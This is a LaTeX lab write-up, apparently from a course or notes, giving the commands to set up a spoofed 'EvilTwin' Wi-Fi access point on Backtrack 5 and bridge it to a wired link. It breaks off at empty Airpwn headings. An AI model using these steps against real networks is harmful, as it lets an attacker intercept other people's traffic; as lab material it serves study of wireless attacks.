 \subsection{Spoof Access Point and AirPwn}
\subsubsection*{Prerequisites}
This is performed on Backtrack 5 Rev 3 running on VirtualBox with Windows 7 as the host operating system. The host machine must be connected to the wireless router via ethernet, and the correct adapter selected in VirtualBox’s Network Settings options menu.

The wireless adapter utilized during this is the Alfa AWUSO36H.
\subsubsection*{Spoofing a Wireless Access Point}
Set the wireless adaptor to monitor and promiscuous mode:
\begin{center}
\begin{lstlisting}[language=bash]
ifconfig wlan0 promisc
airmon-ng start wlan0
\end{lstlisting}
\end{center}
Create the soft access point:
\begin{lstlisting}[language=bash]
airbase-ng --essid EvilTwin -c 11 mon0
\end{lstlisting}
Setup the bridge between the wired and wireless interface:
\begin{lstlisting}[language=bash]
brctl addbr eviltwin-bridge
brctl addif eviltwin-bridge eth0
brctl addif eviltwin-bridge at0
ifconfig eth0 up
ifconfig at0 up
ifconfig eviltwin-bridge 192.168.1.133 up
\end{lstlisting}
Turn on IP forwarding:
\begin{lstlisting}[language=bash]
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}
You should now be able to connect a client to the EvilTwin AP.

\subsubsection*{Airpwn}

\subsubsection*{Installation}
\subsubsection*{Python2.4}

